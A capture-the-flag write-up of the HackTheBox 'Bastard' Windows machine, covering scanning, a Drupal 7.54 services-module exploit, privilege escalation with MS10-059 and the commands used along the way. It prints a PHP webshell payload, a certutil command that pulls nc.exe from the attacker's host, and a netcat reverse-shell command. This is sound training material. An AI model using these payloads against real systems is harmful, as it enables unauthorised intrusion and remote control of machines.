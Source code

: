```yaml
---
layout: default
title: HackTheBox - Bastard Writeup
permalink: /htb/bastard
---
```


# Bastard

> **Name:** Bastard
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Bastard](https://www.hackthebox.eu/home/machines/profile/7) was released on 18 Mar 2017 and it is a medium rated Windows box. I had not previously done this box so going into the write-up I had no idea of what to expect.

## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.9 -sC -sV -v -oA full-scan ```

If running as root this command runs a SYN, or half-open scan against all ports, if running as a user it will be a full connect scan. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/bastard/scan-results.png)

Not a whole lot going on, but that Drupal 7 CMS could be interesting, especially if a specific version can be identified. Which looks very possible with the ```CHANGELOG.txt``` that is shown in the Nmap output from ```robots.txt```. 

## Enumeration

Lets check out that changelog and see if we can get a version. It's also worth checking out the other items from the ```robots.txt``` for anything that could be useful. 

![Changelog]({{site.url}}/assets/bastard/changelog.png)

There we have it, version 7.54. Time to check for any publicly available exploits for it, using searchsploit. However there are a lot of available exploits for this so they need to be narrowed down!

![Searchsploit]({{site.url}}/assets/bastard/searchsploit.png)

Narrowing this down is easier than it seems. Firstly we can discount all the versions below 7.54. This leaves the several 7.58 exploits and a 7.x. A check of the drupalageddon exploits show they weren't discovered until 2018, which is after the release of this box, so can't be the intended method. This leaves the 7.x to check out, and there is a good blog post on the vulnerability [here](https://www.ambionics.io/blog/drupal-services-module-rce)

## Exploitation

Checking the exploit script out shows that some small modification is needed, or at least confirmation about the relevant endpoints. 

```
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```

The ```$url``` variable can be swapped out for the target, but the ```$endpoint_path``` and ```$endpoint``` need to be confirmed. Testing the script endpoint in the browser showed it wasn't a valid path. 

![Invalid Path]({{site.url}}/assets/bastard/endpoint.png)

From here I used intruder in Burp Pro to check for any valid endpoints. If you don't have the Pro version don't bother using this method, a tool like Gobuster, Dirb or WFUZZ will do the job as well. 

Using the ```/usr/share/wordlists/dirb/big.txt``` it is possible to identify the ```rest``` directory with a 200 response. 

![Gobuster]({{site.url}}/assets/bastard/intruder.png)

Testing this in the browser gives us the final piece in the puzzle. 

![Rest Endpoint]({{site.url}}/assets/bastard/rest.png)

With this information the script can be updated, and I modified the command run to create a simple php webshell. The updated lines are:

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'tiro.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

The script can then be executed and we should get confirmation that the ```tiro.php``` file has been uploaded. 

![Exploit]({{site.url}}/assets/bastard/exploit.png)

A quick check in the browser by running whoami in the webshell will confirm that everything is working as expected. 

![Webshell]({{site.url}}/assets/bastard/webshell.png)

Now that basic code execution has been gained it is time to get a better shell so we can enumerate more and grab that user flag. From webshells I like to upload a better shell and execute that, this time around it will be netcat that I host locally on simple python webserver. 

The file is downloaded with the following command:

```http://10.10.10.9/tiro.php?cmd=certutil%20-urlcache%20-split%20-f%20http://10.10.14.35/nc.exe%20nc.exe```

This can be done in the browser or by using curl if you want. Then it's a matter of setting up the listener and executing the reverse shell command. 

This time around I used curl to run the command, you just need to remember to URL encode those spaces!

```curl http://10.10.10.9/tiro.php?cmd=nc.exe%2010.10.14.35%20443%20-e%20cmd.exe```

With this shell we can now move onto finding the privilege escalation!

![user shell]({{site.url}}/assets/bastard/user-shell.png)


## Privilege Escalation

As standard systeminfo is run to get an idea for what state the target is in. Thankfully the output is short and lets us know it is a Server 2008 R2 with no hotfixes applied. 

![Systeminfo]({{site.url}}/assets/bastard/system-info.png)

With this being an old server, and no patches applied there are going to be a lot of privilege escalation exploits available. The harder part is going to be finding which ones were likely to be the intended path at the time of release. 

Another thing that should be checked is what privileges we have. Using ```whoami /priv``` will show the privileges, some of them are more interesting than others. 

![whoami]({{site.url}}/assets/bastard/whoami.png)

From that list the ```SeImpersonatePrivilege``` being enabled is of interest as famously abused by the rotten and juicy potato exploits. At this point you could throw darts at a list of potential exploits and end up as system. But for this I will use windows exploit suggester in the same way covered in the [optimum]({{site.url}}/htb/optimum) writeup.

![exploit suggester]({{site.url}}/assets/bastard/exploit-suggester.png)

Starting from the bottom up seemed like a good idea, and once you ignore all the internet explorer related vulnerabilities (removed from output in screenshot) a few standout. The one that I decided to use was MS10-059, mainly because I had used it previously, and handily egre55 has a precompiled version on his [github](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)

This can be downloaded and then transfered to the target and run. 

![chimichurri]({{site.url}}/assets/bastard/chimichurri.png)

It takes a while to run, but that shell will come! Then you can go grab the flags.

![system]({{site.url}}/assets/bastard/system.png)


